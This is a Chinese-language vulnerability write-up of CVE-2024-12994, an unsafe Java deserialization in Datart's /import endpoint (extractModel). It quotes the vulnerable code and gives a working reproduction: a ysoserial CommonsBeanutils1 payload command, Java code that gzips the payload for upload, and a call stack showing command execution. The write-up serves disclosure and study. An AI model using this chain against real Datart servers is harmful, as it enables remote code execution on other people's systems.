





# elephant Datart 1.0.0-rc3漏洞分析(CVE-2024-12994)-先知社区

> **来源**: https://xz.aliyun.com/news/16394  
> **文章ID**: 16394

---

# 漏洞通告



漏洞的描述中获取到3个要素，

* 漏洞位置在`extractModel`
* 漏洞类型是反序列化
* 漏洞接口是`/import`

# 漏洞分析

直接定位`extractModel`函数



漏洞就两行代码，触发漏洞原因如下：

获取上传文件->进行gzip解压->读取文件内容->触发反序列化

```
public TransferModel extractModel(MultipartFile file) throws IOException, ClassNotFoundException {
    try (ObjectInputStream inputStream = new ObjectInputStream(new GZIPInputStream(file.getInputStream()));) {
        return (TransferModel) inputStream.readObject();
    }
}

```

因为知道了接口是/import，直接寻址入口函数，看看中间是否存在过滤



进入importResource函数分析，代码直接进入到extractModel



# 漏洞复现

生成payload

```
java -jar ysoserial-all.jar CommonsBeanutils1 "touch /test/1.txt" > payload.ser

```

构造gz文件

```
import java.io.*;
import java.util.zip.GZIPOutputStream;

public class Main {
    public static void main(String[] args) throws IOException {
        try (FileInputStream fis = new FileInputStream("payload.ser");
             FileOutputStream fos = new FileOutputStream("payload.ser.gz");
             GZIPOutputStream gzipOut = new GZIPOutputStream(fos)) {
            byte[] buffer = new byte[1024];
            int len;
            while ((len = fis.read(buffer)) > 0) {
                gzipOut.write(buffer, 0, len);
            }
        }
    }
}

```

将payload上传到服务器上


完整利用连

```
extractModel:596, VizServiceImpl (datart.server.service.impl)
importResource:344, VizServiceImpl (datart.server.service.impl)
invoke:-1, VizServiceImpl$$FastClassBySpringCGLIB$$a2ea9a5a (datart.server.service.impl)
10 hidden frames
importResource:-1, VizServiceImpl$$EnhancerBySpringCGLIB$$a372364c (datart.server.service.impl)
13 hidden frames
importViz:281, VizController (datart.server.controller)
82 hidden frames
```

命令执行成功


